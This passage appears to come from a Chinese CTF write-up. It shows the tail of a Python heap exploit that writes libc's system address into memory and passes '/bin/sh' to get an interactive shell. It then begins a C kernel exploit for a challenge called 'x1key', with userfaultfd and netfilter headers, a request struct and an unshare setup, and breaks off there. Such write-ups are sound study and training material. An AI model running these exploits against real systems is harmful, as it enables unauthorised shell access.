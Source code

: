 ```Python
    ])+b"\x00\x00")
    add(b"A"*0x40)
    add(b"A"*0x40+p64(libc.sym["system"])[:6])
    add(b"/bin/sh\x00")
    
    s.interactive()
```

### x1key

直接看出题人 blog

https://kagehutatsu.com/?p=994

```Python
#include <stdio.h>
#include <fcntl.h>
#include <poll.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <signal.h>
#include <unistd.h>
#include <syscall.h>
#include <pthread.h>
#include <linux/fs.h>
#include <linux/fuse.h>
#include <linux/sched.h>
#include <linux/if_ether.h>
#include <linux/userfaultfd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/if_packet.h>
#include <net/if.h>
#include <net/ethernet.h>
#include <linux/netlink.h>
#include <linux/netfilter.h>
#include <linux/netfilter/nf_tables.h>
#include <linux/netfilter/nfnetlink.h>
#include <linux/netfilter/nfnetlink_queue.h>
#include <sys/shm.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

#define        PAGE_SIZE        0x1000
#define        PAGE_SHIFT        12

int dev_fd;

struct request
{
        int idx;
        unsigned int content;
}request_t;

void unshare_setup()
{
```